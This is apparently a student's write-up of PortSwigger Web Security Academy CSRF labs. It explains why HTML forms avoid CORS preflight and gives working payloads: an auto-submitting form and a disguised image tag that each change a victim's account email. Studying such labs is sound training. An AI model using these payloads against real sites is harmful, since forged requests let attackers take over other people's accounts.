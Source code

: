 # CSRF

- https://portswigger.net/web-security/csrf#how-to-construct-a-csrf-attack
- https://tools.nakanosec.com/csrf/

## CSRF vulnerability with no defenses

Check email change request using burp and generate csrf form using https://tools.nakanosec.com/csrf/

Due to https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests:

```
Some requests don't trigger a CORS preflight. Those are called simple requests from the obsolete CORS spec, though the Fetch spec (which now defines CORS) doesn't use that term.

The motivation is that the <form> element from HTML 4.0 (which predates cross-site XMLHttpRequest and fetch) can submit simple requests to any origin, so anyone writing a server must already be protecting against cross-site request forgery (CSRF).
```

So it is prefered to use `<form>` because it "bypasses" `CORS`

```
<html>
	<body>
		<form method="POST" action="https://0a8200510435839080008f1a003a008d.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="pwned@email.com"/>
			<input type="submit" value="Submit">
		</form>
        <script>
            document.forms[0].submit()
        </script>
	</body>
<html>
```

## CSRF where token validation depends on request method

Application allow changing email via GET request and does not validate CSRF tokens in GET requests.

Deliver to victim:
```
<img src="https://0afd00f40477303a87a067c200da00ec.web-security-academy.net/my-account/change-email?email=pwned%40email.com" alt="Cute-cats.png"/>
```
